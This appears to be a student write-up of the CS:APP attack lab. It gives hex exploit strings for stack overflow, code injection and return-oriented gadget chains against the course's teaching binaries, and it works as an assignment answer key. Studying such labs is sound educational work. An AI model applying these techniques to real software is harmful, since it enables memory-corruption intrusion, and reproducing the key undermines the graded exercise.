 # Things to know:
* “Overrunning the buffer typically causes the program state to be corrupted, leading to a memory access error. Your task is to be more clever with the strings you feed CTARGET and RTARGET so that they do more interesting things. These are called exploit strings.”

* if you want to create a byte with a hex value of 0, you need to write it as 00
* Put your answer backward so like 401020  -> 20 10 40
* Pre allocating memory, subtract rsp
* Assigning value to rsp, adds to rsp
* Code Injection vs Return oriented programming

# Phase 1:
* Figuring out How big the buffer by looking at
* get buff
* sub    $0x38,%rsp , 0x38 = 56
* Overflow the buffer and rewrite the return address by redirecting it to the address of touch1

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00  //56  zero/padding
9c 12 40 00 00 00 00 00 //address of touch1
```

# Phase 2:
* Look at the stack(it’ll help you understand)
* (Look at hints in the handout) store your cookie into rdi so you can pass it as an argument
mov    $0x14f987af,%rdi
* Than you are going to want to push the address of touch2 and have a return(in a .d file)
pushq  $0x4012c8
retq
You’ll get the byte representation of the assembly code and that’s what you’ll use in your answer.
* If you run getbuff(hence set a breakpoint at getbuf to see what’s happening) and run it with your answer and check what’s in your stack (do x/20x $rsp ) you’ll see that your cookie and push touch2 at first are just passed in as a string so at first it doesn’t matter that much. But then when you get to rsp
* The rsp address is at the top of the stack where your instructions are hence they’ll start being implemented, where you pass the cookie as an argument to touch2.


```
48 c7 c7 af 87 f9 14 68 //cookie
c8 12 40 00 c3 00 00 00 //push touch2
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 0//0 00
78 9c 63 55 00 00 00 00 //rsp hex after callq //address of first machine instruction
//overwrite with our first injected code
```

# Phase 3:
* Convert cookie into a string
* If it is stored in buf, then the next hexmatch may overwrite its stack, but the parent stack of buf is safe. We put the address of touch3 on the top of the parent stack.
* Your injected code should set register %rdi to the address of this string.
* “When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.”
* Rsp from phase 2 is the first thing we read which sends us to our instruction and there it grabs the cookie.

```
48 c7 c7 b8 9c 63 55 68  //  the return address should be rsp from phase 2 +0x40(64 decimal) into rdi is where the address of the string (the location where the code execution address is saved) //moving the cookie to rdi(this is where the cookie was stored previously, past the overflow point at the end of the buffer) plus buffer size+0x8 for the return address and another 0x8 for touch 3
d9 13 40 00 c3 00 00 00 //address of touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 9c 63 55 00 00 00 00 //rsp from phase 2//points back to the beginning where your instructions are
31 34 66 39 38 37 61 66 // cookie turn into a string
```


# Phase 4:
* the strategy is to find several instructions/byte sequence in the existing code, these instructions are followed by instructions ret(gadgets)
* Each return is equivalent to jumping from one gadget to another, and then doing so through the constant jump to complete the operation we want.
* Similar logic as phase 2 but we are using return-oriented programming
* Your first gadget will be a popq rax(58),it will pop data from the stack
* Then put your cookie address and store it in rax thanks to gadget 1, then put the cookie into edi (hence mov rax,edi is your second gadget(48 89 c7 c3))
* And then just past the address of touch2
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00
7e 14 40 00 00 00 00 00 //gadget 1 popq rax  whatever was put at the top of the stack put into rax,//overwriting the return address with a gadget(that’s how it jumps into the stack)
When it gets a return command it looks at the return address and then it moves the stack pointer down .A return address is like popping. The gadget includes a return and then goes down to the cookie(rsp goes down to the cookie)
af 87 f9 14 00 00 00 00 //cookie Address , put cookie where rax is (stored in rax)
a6 14 40 00 00 00 00 00 //gadget 2 mov rax,edi // there is a c3 at that address
c8 12 40 00 00 00 00 00 //touch2
```


# Phase 5:
* From the moment we move the address of rsp to rax till the address of cookie, there are 9 addresses which are 8 gadgets and the address of touch3, exclude the value read in to rax and each address has 8 bytes.The gap must be 72 bytes, which is equal to the address of 0x48.
* The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
da 14 40 00 00 00 00 00 //Mov %rsp, %rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
99 14 40 00 00 00 00 00 //pop rax //pop data from the stack
48 00 00 00 00 00 00 00  // 9*8 = 72 =0x48 //6*8  to set up eax into esi
02 15 40 00 00 00 00 00//Movl %eax, %ecx   //89 c1
4b 15 40 00 00 00 00 00//Movl %ecx, %edx //89 ca
1d 15 40 00 00 00 00 00 //Movl %edx, %esi  //89 d6
b1 14 40 00 00 00 00 00//Lea (%rdi, %rsi, 1), %rax putting cookie into rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
d9 13 40 00 00 00 00 00//Touch3's address
31 34 66 39 38 37 61 66//Cookie string
```
The first thing to do is to get the current %rsp address and use it to find the string.
Add this address to the offset, here is the function 0x48 just used add_xy
Find a way to put the above value into the %rdi
Follow the previous ret instruction, return touch3 the address
Store the string, for the sake of convenience, we put it to the end


Return Oriented programming:

Performing code-injection attacks on program RTARGET is much more difficult than it is for CTARGET, because it uses two techniques to thwart such attacks:
It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.
Fortunately, clever people have devised strategies for getting useful things done in a program by executing existing code, rather than injecting new code. The most general form of this is referred to as return-oriented programming (ROP) [1, 2].
The strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction ret. Such a segment is referred to as a gadget. Figure 2 illustrates how the stack can be set up to execute a sequence of n gadgets. In this figure, the stack contains a sequence of gadget addresses. Each gadget consists of a series of instruction bytes, with the final one being 0xc3, encoding the ret instruction. When the program executes a ret instruction starting with this configuration, it will initiate a chain of gadget executions, with the ret instruction at the end of each gadget causing the program to jump to the beginning of the next.
A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations. For example, it is highly unlikely that a compiled function would have popq %rdi as its last instruction before ret. Fortunately, with a byte-oriented instruction set, such as x86-64, a gadget can often be found by extracting patterns from other parts of the instruction byte sequence.
